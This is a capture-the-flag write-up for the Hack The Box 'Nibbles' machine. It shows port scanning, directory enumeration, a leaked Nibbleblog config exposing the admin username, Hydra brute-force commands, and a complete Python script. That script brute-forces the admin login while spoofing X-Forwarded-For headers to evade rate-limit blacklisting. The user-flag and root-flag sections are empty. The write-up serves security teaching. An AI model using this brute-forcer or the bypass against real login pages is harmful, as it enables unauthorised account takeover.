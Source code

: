 ## Default Information
IP Address: 10.10.10.75\
OS: Linux

## Enumeration

First, let's add the IP address and the host to our ```/etc/hosts``` file.

```
10.10.10.75    nibbles.htb
```

Next, we will scan for open ports using masscan. Form the output, we realize that there are numerous open ports on this machine.

```
┌──(kali㉿kali)-[~]
└─$ sudo masscan -p1-65535,U:1-65535 10.10.10.75 --rate=1000 -e tun0
Starting masscan 1.3.2 (http://bit.ly/14GZzcT) at 2021-10-02 01:05:16 GMT
Initiating SYN Stealth Scan
Scanning 1 hosts [131070 ports/host]
Discovered open port 22/tcp on 10.10.10.75                                     
Discovered open port 80/tcp on 10.10.10.75  
```

Now, we will scan these open ports using Nmap to identify the service behind each of these open ports.

| Port Number | Service | Version | State |
|-----|------------------|----------------------|----------------------|
| 22	| SSH | OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0) | Open |
| 80	| HTTP | Apache httpd 2.4.18 ((Ubuntu)) | Open |

Lastly, we will do use Nmap to scan for vulnerabilities on the open ports. From the output, port 80 may be vulnerable to a slow loris attack but slow loris is a DOS attack which may not be very helpful here.

```
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63
|_http-csrf: Couldn't find any CSRF vulnerabilities.
|_http-dombased-xss: Couldn't find any DOM based XSS.
|_http-jsonp-detection: Couldn't find any JSONP endpoints.
|_http-litespeed-sourcecode-download: Request with null byte did not work. This web server might not be vulnerable
| http-slowloris-check: 
|   VULNERABLE:
|   Slowloris DOS attack
|     State: LIKELY VULNERABLE
|     IDs:  CVE:CVE-2007-6750
|       Slowloris tries to keep many connections to the target web server open and hold
|       them open as long as possible.  It accomplishes this by opening connections to
|       the target web server and sending a partial request. By doing so, it starves
|       the http server's resources causing Denial Of Service.
|       
|     Disclosure date: 2009-09-17
|     References:
|       http://ha.ckers.org/slowloris/
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2007-6750
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
|_http-wordpress-users: [Error] Wordpress installation was not found. We couldn't find wp-login.php
```
## Discovery

First, we will try to find the endpoints and Vhosts of http://nibbles.htb with Gobuster. However, we were not able to find anything meaninful from the output

Visiting the website, we are presented with an empty page with the words _Hello World!_. However, upon inspecting the source code of the page, we realize that it contains a comment that points to the ```/nibbleblog``` endpoint.

![Nibbleblog directory](https://github.com/joelczk/writeups/blob/main/HTB/Images/Nibbles/nibbleblog.PNG)

Visiting http;//nibbles.htb/nibbleblog, we realize that this webpage is using PHP. We will then enumerate furthur endpoints using Gobuster.

```
┌──(kali㉿kali)-[~/Desktop]
└─$ gobuster dir -u http://nibbles.htb/nibbleblog/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -e -k -t 50 -x php -z --timeout 20s 
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://nibbles.htb/nibbleblog/
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              php
[+] Expanded:                true
[+] Timeout:                 20s
===============================================================
2021/10/02 06:00:28 Starting gobuster in directory enumeration mode
===============================================================
http://nibbles.htb/nibbleblog/sitemap.php          (Status: 200) [Size: 401]
http://nibbles.htb/nibbleblog/content              (Status: 301) [Size: 323] [--> http://nibbles.htb/nibbleblog/content/]
http://nibbles.htb/nibbleblog/themes               (Status: 301) [Size: 322] [--> http://nibbles.htb/nibbleblog/themes/] 
http://nibbles.htb/nibbleblog/feed.php             (Status: 200) [Size: 300]                                             
http://nibbles.htb/nibbleblog/index.php            (Status: 200) [Size: 2986]                                            
http://nibbles.htb/nibbleblog/admin.php            (Status: 200) [Size: 1401]                                            
http://nibbles.htb/nibbleblog/admin                (Status: 301) [Size: 321] [--> http://nibbles.htb/nibbleblog/admin/]  
http://nibbles.htb/nibbleblog/plugins              (Status: 301) [Size: 323] [--> http://nibbles.htb/nibbleblog/plugins/]
http://nibbles.htb/nibbleblog/install.php          (Status: 200) [Size: 78]                                              
http://nibbles.htb/nibbleblog/update.php           (Status: 200) [Size: 1622]                                            
http://nibbles.htb/nibbleblog/README               (Status: 200) [Size: 4628]                                            
http://nibbles.htb/nibbleblog/languages            (Status: 301) [Size: 325] [--> http://nibbles.htb/nibbleblog/languages/]
```

Looking at http://nibbles.htb/README, we were able to determine that we are using a Nibbleblog 4.0.3 and the PHP that the website is using is v5.2 or higher. Upon some research, we realize that Nibbleblog is a CMS that operates based on PHP and uses XML to store its data. 

Next up, visitng http://nibbles.htb/nibbleblog/update.php, we are able to find another endpoint ```/content/private/config.xml```. Looking at that endpoint, we were able to extract the following pieces of information:
* IP Address: 10.10.10.134
* Possible username: admin

![config.xml file](https://github.com/joelczk/writeups/blob/main/HTB/Images/Nibbles/config_xml.PNG)

Together with the username, we will attempt to bruteforce the password to the SSH terminal using Hydra. Howeber, it seems that we are unable to bruteforce the login.

```
┌──(kali㉿kali)-[~/Desktop]
└─$ hydra -l admin -P rockyou.txt 10.10.10.75 -t 4 ssh
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-10-02 11:26:53
[DATA] max 4 tasks per 1 server, overall 4 tasks, 602043 login tries (l:1/p:602043), ~150511 tries per task
[DATA] attacking ssh://10.10.10.75:22/
[STATUS] 28.00 tries/min, 28 tries in 00:01h, 602015 to do in 358:21h, 4 active
```

Since the bruteforce to login to the SSH terminal failed, we will try to bruteforce a login to the admin panel on the webpage. However, there is a problem as we soon realize that if there is too many consecutive failed logins, our IP address will be blacklisted for a short period of time. 

```
sudo hydra -l admin -P rockyou.txt nibbles.htb http-post-form "/nibbleblog/admin.php:username=admin&password=^PASS^:Incorrect username or password."
```

However, we realize that we can add in a ```X-Forwarded-For``` header to bypass the rate-limiting protection mechanism. To bruteforce the login page, we will write our own script to find the password. From the output, we have obtained that the username-password pair is admin-nibbles.

```python
import random
import requests
import argparse
import time

def genRandIP():
	return '.'.join('%s'%random.randint(0, 255) for i in range(4))

def readPasswordList(passwordFileLocation):
	passwordList = []
	passwordFile = open(passwordFileLocation,'r')
	for x in passwordFile.readlines():
		passwordList.append(x.strip())
	passwordFile.close()
	return passwordList

def login(username, password, ip, url):
	headers = {'X-Forwarded-For': ip}
	payload = {'username': username, 'password': password}
	r = requests.post(
		url, headers=headers,data=payload
	)
	if r.status_code == 500:
		print(ip + "(" + password +"): "+ "Internal server error!")
		return False
	if "Incorrect username or password." in r.text:
		print(ip + "(" + password + "): "+ "Incorrect credentials!")
		return False
	if "blacklist" in r.text:
		print(ip + "(" + password + "):" + "Rate-limiting mechanism in place! Sleeping for 5mins....")
		time.sleep(300)
		return False
	else:
		print(ip + "(" + password + "): " + "Credentials found")
		return True

def run(passwordFileLocation,url,position):
	passwords = readPasswordList(passwordFileLocation)
	passwords = passwords[int(position):]
	username = "admin"
	for password in passwords:
		randomIP = genRandIP()
		testLogin = login(username,password,randomIP,url)
		if testLogin == True:
			print("Password is: " + str(password))
			return
		else:
			continue

if __name__ == '__main__':
	parser = argparse.ArgumentParser()
	parser.add_argument('-u', help='url')
	parser.add_argument('-w', help='File location')
	parser.add_argument('-p', help='Position on password list')
	args = parser.parse_args()
	run(args.w, args.u, args.p)
```

## Obtaining user flag

## Obtaining root flag
